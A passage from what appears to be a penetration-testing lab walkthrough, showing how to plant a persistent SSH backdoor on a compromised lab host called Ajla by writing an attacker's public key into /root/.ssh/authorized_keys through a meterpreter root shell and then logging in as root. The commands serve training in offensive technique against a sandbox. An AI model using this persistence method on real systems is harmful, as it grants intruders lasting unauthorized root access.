 -   **Now that we have root access**, we can create a **more stable backdoor using ssh**. This will allow us to come back to Ajla even if our meterpreter session dies.

- First, we need to **generate a new ssh key on our Kali machine.**

> If you already have ssh keys generated, feel free to skip this step.

```bash
kali@kali:~$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/kali/.ssh/id_rsa.
Your public key has been saved in /home/kali/.ssh/id_rsa.pub.
...
kali@kali:~$ cat:~/.ssh/id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQD... kali@kali
```

- With our ssh key generated, we can create the authorized\_keys file on Ajla to accept our public key. 

- We will do this via the meterpreter session that has the root shell.

```bash
mkdir /root/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQD... kali@kali" > /root/.ssh/authorized_ke
ys
```

- Now on Kali, we can use the ssh client to connect to Ajla directly.

```bash
kali@kali:~$ ssh root@sandbox.local
Welcome to Ubuntu 16.04 LTS (GNU/Linux 4.4.0-21-generic x86_64)
...
root@ajla:~#
```

